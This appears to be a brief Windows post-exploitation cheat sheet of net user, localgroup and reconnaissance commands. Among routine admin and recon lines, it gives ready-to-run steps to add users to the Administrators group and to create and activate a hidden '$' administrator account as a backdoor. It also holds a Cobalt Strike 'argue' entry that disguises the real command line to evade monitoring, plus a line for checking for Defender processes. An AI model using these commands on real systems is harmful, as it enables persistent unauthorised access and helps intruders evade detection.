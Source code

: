 ```
```
# USER
list user
```
net user
```
delete user
```
net user user /delete
```
change user new pass
```
net user user pass
```
add user
```
net user user pass /add
```
Add user to Administrators group
```
net localgroup "Administrators" user /add
```
mstsc Force login
```
mstsc /v:IP:PORT /user
```
CS argue add user
```
argue net saldjfoiwjeofijoisfklasjdlfjasdfiowjefoijwoefjoaisjefojsaefoiwejfowef
run net user test 123456 /add
run net localgroup "administrators" test /add
```
add hide user
```
net user test$ 123456 /add
net localgroup administrators test$ /add
net user test$ /active:yes
```
del hide user
```
net user test$ /del
```
# Windows
check defender task
```
tasklist
```
list user
```
net user
```
displays current user
```
whoami
```
displays systeminfo
```
systeminfo
```
displays x86/x64
```
wmic os get osarchitecture
```
displays all current network
```
ipconfig /all
```